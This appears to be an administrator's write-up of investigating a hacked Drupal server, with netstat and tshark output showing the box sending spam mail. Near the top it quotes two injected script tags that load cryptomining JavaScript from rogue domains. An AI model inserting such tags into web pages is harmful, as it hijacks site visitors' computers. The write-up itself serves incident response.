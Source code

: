 ```html
?><script type="text/javascript" src="//upgraderservices.cf/drupal.js"></script><?php^M
?><script type="text/javascript" src="//drupalupdates.tk/check.js"></script><?php^M
```

This looked very suspicious because of the domains and so I researched this piece of code and found out these were cryptomining scripts, as reported by a twitter post: https://twitter.com/bad_packets/status/1037416308336287744

To remediate this issue, I simply removed these scripts. However, the connections still persisted:

```console
user@host:/var/www/subdomain$ netstat -an
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN
tcp        0      0 10.10.10.10:42191   98.137.157.43:25        TIME_WAIT
tcp        0      1 10.10.10.10:47567   192.64.147.176:25       SYN_SENT
tcp        0      1 10.10.10.10:48204   23.20.239.12:25         SYN_SENT
tcp        0      0 10.10.10.10:46017   67.195.228.87:25        TIME_WAIT
tcp        0      1 10.10.10.10:48211   23.20.239.12:25         SYN_SENT
tcp        0      0 10.10.10.10:50025   98.136.101.116:25       TIME_WAIT
tcp        0      1 10.10.10.10:49812   52.162.126.195:25       SYN_SENT
tcp        0      1 10.10.10.10:36409   185.53.178.8:25         SYN_SENT
tcp        0      1 10.10.10.10:48231   23.20.239.12:25         SYN_SENT
tcp        0      1 10.10.10.10:43103   207.148.248.145:25      SYN_SENT
tcp        0      1 10.10.10.10:58587   162.255.119.180:25      SYN_SENT
tcp        0    168 10.10.10.10:22      10.10.10.12:38580   ESTABLISHED
tcp        0      0 10.10.10.10:42186   98.137.157.43:25        TIME_WAIT
tcp        0      1 10.10.10.10:45291   68.178.213.61:25        SYN_SENT
tcp        0      0 10.10.10.10:37805   204.188.217.xx:80      ESTABLISHED
tcp        0   2205 10.10.10.10:34654   216.120.254.206:25      ESTABLISHED
tcp        0      1 10.10.10.10:39909   184.168.131.241:25      SYN_SENT
tcp        0      1 10.10.10.10:48962   184.168.47.225:25       SYN_SENT
tcp        0      0 10.10.10.10:38409   98.136.96.73:25         TIME_WAIT
tcp        0      0 10.10.10.10:55883   216.251.100.19:25       ESTABLISHED
tcp        0      0 10.10.10.10:32777   204.188.217.xx:80      ESTABLISHED
tcp        0      1 10.10.10.10:33846   159.8.40.50:25          SYN_SENT
tcp        0      1 10.10.10.10:47992   198.185.159.145:25      SYN_SENT
tcp        0      1 10.10.10.10:39920   184.168.131.241:25      SYN_SENT
tcp        0      0 10.10.10.10:37092   66.218.85.151:25        TIME_WAIT
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 :::25                   :::*                    LISTEN
tcp6       0      0 :::443                  :::*                    LISTEN
udp        0      0 10.10.10.10:123     0.0.0.0:*
udp        0      0 127.0.0.1:123           0.0.0.0:*
...
```
Now there was even a SMTP port open (port **25**). I sniffed some packets on the SMTP port:

```
user@host:/var/www/subdomain$ sudo tshark "port 25"
Running as user "root" and group "root". This could be dangerous.
tshark: Lua: Error during loading:
 /usr/share/wireshark/init.lua:32: dofile has been disabled due to running Wireshark as superuser. See https://wiki.wireshark.org/CaptureSetup/CapturePrivileges for help in running Wireshark as an unprivileged user.
Capturing on 'eth0'
155 187.354503622  74.6.137.68 → 10.10.10.10 SMTP 171 S: 250 sender <www-data@www.website.ca> ok | 250 recipient <atheneos@atheneoscafe.com> ok | 354 go ahead
156 187.354596107 10.10.10.10 → 74.6.137.68  SMTP 1514 C: DATA fragment, 1448 bytes
157 187.354605929 10.10.10.10 → 74.6.137.68  SMTP|IMF 853 subject: =?UTF-8?B?TG9nTWVJbiBOb3RpZmljYXRpb24gLSBDb21wdXRlciBJRDogMjg1MzI4NTczNSBkZWxldGVk?=, from: =?UTF
```